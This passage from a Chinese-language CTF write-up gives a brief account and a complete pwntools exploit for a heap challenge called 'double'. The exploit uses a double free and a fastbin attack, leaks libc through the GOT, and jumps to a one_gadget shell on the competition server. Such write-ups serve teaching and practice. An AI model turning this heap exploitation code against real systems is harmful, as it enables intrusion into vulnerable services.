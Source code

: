 ```python
r.sendline(str(5))

#gdb.attach(r)
print "libc: " + hex(libc)

r.interactive()
```
### double
这题的点找了好久，一直没 get 到，（没注意题目名，手动滑稽），研究了各种姿势，回原点，两个同样的文件释放会报 double free 的错，才发现自己漏看了一块地方，然后利用文件内容一致，引用同一文件。实现 double free。然后 fastbin attack再次 diss，主办方的 check 竟然 system(“sh”) ，命令在容器里啥权限都没，还不让我过，搞得我只好找 onegadget  
```
from pwn import *
context.log_level = "debug" p = process("./pwn")
p = remote("e095ff54e419a6e01532dee4ba86fa9c.kr-lab.com",40002)
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def add(content):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('Your data:\n')
    p.send(content)
def edit(index,content):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('Info index: ')
    p.sendline(str(index))
    p.send(content)
def show(index):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('Info index: ')
    p.sendline(str(index))
def delete(index):
    p.recvuntil('> ')
    p.sendline('4')
    p.sendline(str(index))
add(0x50*'s'+'\n')
add(0x60*'s'+'\n')
add(0x60*'s'+'\n')
add(0x60*'b'+'\n')
delete(1)
delete(3)
delete(2)
add(p64(0x4040bd).ljust(0x60,'c')+'\n')
add(0x60*'n'+'\n')
add(0x60*'m'+'\n')
payload = 'd'*3 + p64(0x4040e0) + p64(0x4040f0) + p32(0) + p32(20) +
p64(elf.got['read'])+p64(0x4040f0)
add((0x60*'\x00')+'\n')
edit(0,payload+'\n')
show(0)
readaddr = u64(p.recv(6).ljust(8,'\x00'))
libcaddr = readaddr - libc.symbols['read']
print "libc---->",hex(libcaddr)
edit(0,p64(libcaddr + 0x4526a)+'\n')
p.sendline('icqf3f12bdf6e59569e295aacbd704b2')
p.interactive()
```
## Reverse
**作者：lizhirui、impakho**